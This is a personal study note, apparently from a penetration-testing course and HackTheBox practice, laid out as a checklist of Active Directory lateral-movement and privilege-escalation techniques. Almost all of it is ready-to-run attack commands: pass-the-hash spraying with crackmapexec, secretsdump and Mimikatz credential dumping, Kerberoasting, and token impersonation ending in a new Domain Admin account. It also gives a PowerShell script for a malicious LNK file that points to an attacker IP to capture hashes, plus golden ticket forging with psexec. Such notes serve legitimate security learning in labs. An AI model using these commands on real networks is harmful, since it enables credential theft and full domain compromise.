 
![[Pasted image 20241116130150.png]]

>[! bug] Moving Laterally & Vertically

```
- [ ] Pass Attacks
- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy
```



##  Pass Attacks

- [ ] crackmapexec

```
crackmapexec smb <IP_Address> -u <user_list> -d <domain_list> -p <password_list>
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```



Hash
```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --sam
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --lsa
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --shares
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth -M lsassy
```


```
cmedb
```




- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```

```
secretsdump.py administrator@10.10.10.182 -hashes <full:hash>
```





- [ ] Dumping and Cracking Hashes

```
Wdigest is by default on Windows 2007 , 2008 , 2012.
```

```
llmr -> fcastle hash -> cracked -> sprayed the password -> found new login -> secretsdump those logins -> local admin hashes -> respray the network with local accounts

Lateral, Lateral, lateral all the way through until we find the vertical movement.
It could be admin password in wdigest or it could be an admin account that logins into your Domain controller.
```




- [ ] Kerberoasting

```
GetUserSPNs.py MARVEL.local/<usernname>:<password> -dc-ip <ip_address> -request
```

```
If it's never a logon in an account that could be a Honeypot account
```






- [ ] Token Impersonation

Delegate Token are for login's & RDP
Incognito

MSF-Console
![[Pasted image 20241112174826.png]]


```
load incognito
```
![[Pasted image 20241112175259.png]]

```
list_token -u
list_token -g
```

```
impersonate_token marvel\\fcastle
```

```
shell 
rev2self
getuid
```


```
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN
```





- [ ] LNK File Attacks


```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\<attacker_machine_IP>\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```


```
sudo responder -I eth0 -dwPv
```


Automated attack using CME/Net Exec:

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```


Additional resources for forced authentication: [Red_Team_Offensive_Security](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)







- [ ] GPP / cPassword Attacks

GPP -> gpp-decrypt -> msf -> smb_enum_gpp

```
gpp-decrypt
```



- [ ] Mimikatz

https://github.com/gentilkiwi/mimikatz



- [ ] Credential Dumping with Mimikatz

```
privilege::
```

```
sekurlsa::logonpasswords
```

```
privilege::debug
```

```
sekurlsa::
```

```
sekurlsa::logonPasswords
```



- [ ] Post-Compromise Attack Strategy

```
Enumerate what is Bloodhound telling us, what are the quick winds there, who are our users, where are our domain admins, do we have access to any machines that are potentially sensitive.

Where does our account have access ?_?

Do we have access to file shares, can we maybe look up sensitive files, can we log in with our account to different locations.

Maybe we can check our email or we can look at service desk tickets, or log into different areas, maybe that leads to another form of compromise, or it leads to some other information that we can gather.
```

![[Pasted image 20241116130213.png]]

>[! bug] Keep In Mind

## Attack
Certificate attack

## Tool
Certipy


## Golden Ticket

```
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```

```
python3 ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local  Wedontexist
```

To get the domain SID
```
GET-ADDomain htb.local
```

```
cd /usr/share/doc/python3-impacket/examples
```

```
export KRB5CCNAME=Wedontexist.ccache 
```

```
psexec.py -debug -k -no-pass htb.local/Wedontexist@forest
```

